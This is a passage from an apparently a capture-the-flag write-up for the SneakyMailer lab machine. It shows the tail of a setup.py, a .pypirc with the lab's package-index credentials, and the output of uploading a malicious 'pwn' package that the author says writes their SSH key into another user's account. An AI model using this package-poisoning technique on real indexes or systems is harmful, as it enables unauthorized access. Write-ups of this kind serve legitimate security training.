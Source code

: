 ```python
        "Programming Language :: Python :: 3",
        "License :: OSI Approved :: MIT License",
        "Operating System :: OS Independent",
    ],
    python_requires='>=3.6',
)
```

I first tried writing my public SSH key to `low` but the script was being run in the context of `developer` and not being installed for some reason. I added a check to make sure that `low` \(userID 1000\) was the one running it. Next I followed the instructions to install the package into pypiserver

```text
[distutils]
index-servers =
  pypi
  local

[pypi]
username:pypi
password:soufianeelhaoui

[sneaky]
repository: http://pypi.sneakycorp.htb:8080
username:pypi
password:soufianeelhaoui
```

I created the `.pypirc` file in my distribution's directory, then set this to be `developer`'s home directory with `export HOME=/dev/shm/pypi`

### User.txt

```text
developer@sneakymailer:~$ python3 setup.py sdist register -r local upload -r local
running sdist
running egg_info
writing sneakymailer_pwn.egg-info/PKG-INFO
writing dependency_links to sneakymailer_pwn.egg-info/dependency_links.txt
writing top-level names to sneakymailer_pwn.egg-info/top_level.txt
reading manifest file 'sneakymailer_pwn.egg-info/SOURCES.txt'
writing manifest file 'sneakymailer_pwn.egg-info/SOURCES.txt'
warning: sdist: standard file not found: should have one of README, README.rst, README.txt, README.md

running check
creating sneakymailer-pwn-0.0.1
creating sneakymailer-pwn-0.0.1/sneakymailer_pwn.egg-info
copying files to sneakymailer-pwn-0.0.1...
copying setup.py -> sneakymailer-pwn-0.0.1
copying sneakymailer_pwn.egg-info/PKG-INFO -> sneakymailer-pwn-0.0.1/sneakymailer_pwn.egg-info
copying sneakymailer_pwn.egg-info/SOURCES.txt -> sneakymailer-pwn-0.0.1/sneakymailer_pwn.egg-info
copying sneakymailer_pwn.egg-info/dependency_links.txt -> sneakymailer-pwn-0.0.1/sneakymailer_pwn.egg-info
copying sneakymailer_pwn.egg-info/top_level.txt -> sneakymailer-pwn-0.0.1/sneakymailer_pwn.egg-info
Writing sneakymailer-pwn-0.0.1/setup.cfg
Creating tar archive
removing 'sneakymailer-pwn-0.0.1' (and everything under it)
running register
Registering sneakymailer-pwn to http://pypi.sneakycorp.htb:8080
Server response (200): OK
WARNING: Registering is deprecated, use twine to upload instead (https://pypi.org/p/twine/)
running upload
Submitting dist/sneakymailer-pwn-0.0.1.tar.gz to http://pypi.sneakycorp.htb:8080
```